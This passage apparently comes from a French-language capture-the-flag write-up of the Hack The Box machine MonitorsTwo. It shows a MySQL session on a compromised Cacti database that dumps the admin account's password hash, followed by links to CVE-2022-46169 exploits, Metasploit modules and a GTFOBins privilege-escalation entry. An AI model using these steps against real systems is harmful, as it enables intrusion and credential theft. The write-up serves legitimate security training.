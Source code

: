 ```bash
| information_schema |
| cacti              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.002 sec)

# Selection de la base de donnée:

MySQL [(none)]> use cacti;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

# Listage des tables de bases de données

MySQL [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
<SNIP>
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
111 rows in set (0.001 sec)

# Extraction de la première ligne de la table pour énumérer ses champs

MySQL [cacti]> SELECT * FROM user_auth LIMIT 1 \G;
*************************** 1. row ***************************
                    id: 1
              username: admin
              password: $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
                 realm: 0
             full_name: Jamie Thompson
         email_address: admin@monitorstwo.htb
  must_change_password:
       password_change: on
             show_tree: on
             show_list: on
          show_preview: on
        graph_settings: on
            login_opts: 2
         policy_graphs: 1
          policy_trees: 1
          policy_hosts: 1
policy_graph_templates: 1
               enabled: on
            lastchange: -1
```

[1]:	https://app.hackthebox.com/machines/MonitorsTwo
[2]:	https://nvd.nist.gov/vuln/detail/CVE-2022-46169
[3]:	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
[4]:	https://gtfobins.github.io/gtfobins/capsh/#suid
[5]:	https://nvd.nist.gov/vuln/detail/CVE-2021-33033
[6]:	https://wiki.ubuntu.com/FocalFossa/ReleaseNotes
[7]:	https://nvd.nist.gov/vuln/detail/CVE-2020-25706 
[8]:	https://nvd.nist.gov/vuln/detail/CVE-2021-41091
[9]:	https://github.com/UncleJ4ck/CVE-2021-41091
[10]:	https://www.youtube.com/watch?v=dJfbogs8Yz0&t=8s
[11]:	https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/
[12]:	https://www.exploit-db.com/exploits/51166
[13]:	https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/cacti_unauthenticated_cmd_injection.rb#L143
[14]:	https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/
[15]:	https://www.freecodecamp.org/news/where-are-docker-images-stored-docker-container-paths-explained/
[16]:	https://www.gnu.org/software/bash/manual/html_node/The-Set-Builtin.html#:~:text=If%20the%20%2Dp%20option%20is,real%20user%20and%20group%20ids.&text=Enable%20restricted%20shell%20mode.,once%20it%20has%20been%20set
[image-1]: 	img/MonitorsTwo.png
[image-2]:	img/home.png
[image-3]:	img/vuln.png
[image-4]:	img/capsh.png
[image-5]:	img/linuxkernel.png
[image-6]:	img/machine_pwned.png
[image-7]:	img/burp_login_request.png
[image-8]:	img/burp_fatal_error.png
[image-9]:	img/xForwardedFor.png
[image-10]:	img/sleep_attempt.png
[image-11]:	img/payload_pos.png
[image-12]:	img/payload_settings.png
[image-13]:	img/brute_results.png
[image-14]:	img/burp_responseTime.png
[image-15]:	img/proc.png
[image-16]:	img/uptime.png
[image-17]:	img/revshell_payload.png